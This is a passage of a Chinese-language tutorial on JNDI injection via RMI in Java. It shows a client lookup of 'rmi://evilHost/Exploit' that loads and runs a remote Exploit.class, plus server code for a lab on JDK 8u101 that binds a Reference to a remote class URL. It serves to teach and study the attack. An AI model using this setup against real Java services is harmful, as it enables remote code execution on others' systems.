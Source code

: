 此时假设使用 rmi 协议 客户端通过 lookup 函数请求上面 bind 设置的 Exploit

```bash
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 Reference 对象 客户端在本地 CLASSPATH 查找 Exploit 类 如果没有 则根据设定的 Reference 属性 到 URL [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例 构造方法中的恶意代码会被执行

[![](assets/1699929746-63d2ffc490da1186e0fadfc36a6ef8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001933-c45cb670-7f1b-1.png)

### RMI 低版本 JDK

此处实验的 jdk 版本是 8u101

服务端代码

```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class SERVER {

    public static void main(String args[]) throws Exception {

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest.class", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);

    }

}
```

